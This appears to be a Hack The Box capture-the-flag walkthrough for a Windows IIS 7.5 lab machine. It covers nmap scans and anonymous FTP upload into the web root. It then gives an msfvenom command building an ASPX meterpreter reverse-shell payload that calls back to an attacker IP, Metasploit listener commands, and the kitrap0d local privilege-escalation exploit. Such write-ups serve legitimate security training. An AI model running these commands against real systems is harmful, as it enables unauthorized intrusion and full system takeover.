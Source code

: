 # Nmap
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 5000 10.10.10.5 -oN surface.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:28 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
```
```CSS
▶ nmap -sC -sV -p 21,80 --min-rate 5000 10.10.10.5 -oN deep.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:31 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds
```

# FTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7c41409-5936-4da5-8464-17f3d93385d2)
# HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1b24c617-3c50-4c19-a2c6-4993b136cba5)
# Foothold
- Observe that the FTP server is in the same route as the HTTP server. Which means there stands a chance if file uploads are allowed a file is uploaded via FTP and it can be then accessed directly using the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a94a4267-2326-4851-9cae-7da69ae1da6e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/43ce2b5e-170d-40e1-96b9-26541fa165ee)

- Create a text file with any random name and upload it. Then access the uploaded file in the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/db8bd9ae-4356-43c7-ad3d-2501ebb011a1)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3c67d341-5538-410c-aa80-6caa588743c0)
## MSFVenom
  - Generate a payload using `MSFVenom` for a reverse tcp connection to get a shell.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5e2d416c-4b86-4d87-9f23-d93e4c483f56)
```CSS
▶ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.54 LPORT=4444 -f aspx -o rsp.aspx
```
 - Upload payload.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6b8466f5-48f7-4b75-a897-3dd71973f57d)
- Start listener.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f744751a-a08f-427f-8c4b-aac2ece65d46)
```CSS
▶ sudo msfdb run
▶ use exploit/multi/handler
▶ set payload windows/meterpreter/reverse_tcp
▶ set LHOST tun0
▶ set LPORT 4444
▶ run
```
  - View `sysinfo`.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a5f8ee11-f4e3-4ae6-860d-617f6fa13175)
```CSS
meterpreter> sysinfo
```
- Get a upgraded shell and view system information.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cd643c8f-22be-4c47-ae52-263d0ac6520d)
```CSS
meterpreter> shell
c:\windows\system32\inetsrv>getuid
c:\windows\system32\inetsrv>systeminfo
```
- Exit the upgraded shell.
- Search for exploit suggester.
- Set session and run.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/89f9dbdf-ae82-4ea8-bdcd-da4bb09dc17b)
- Suggested exploits
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5d6fae9d-2038-44c0-9fa3-84cddd61153f)
- Use exploit
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7c4c8bbb-c2bc-4a26-82b4-509f8d41bbf2)
```CSS
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
```
- Set exploit options
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5aa4005f-fa82-4802-9078-91821dc3a9c4)
- Shell
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0f74e2a3-240b-432e-9f2f-a4dc788e8b2a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e6477b4a-b405-4aab-ae46-13197bafc845)
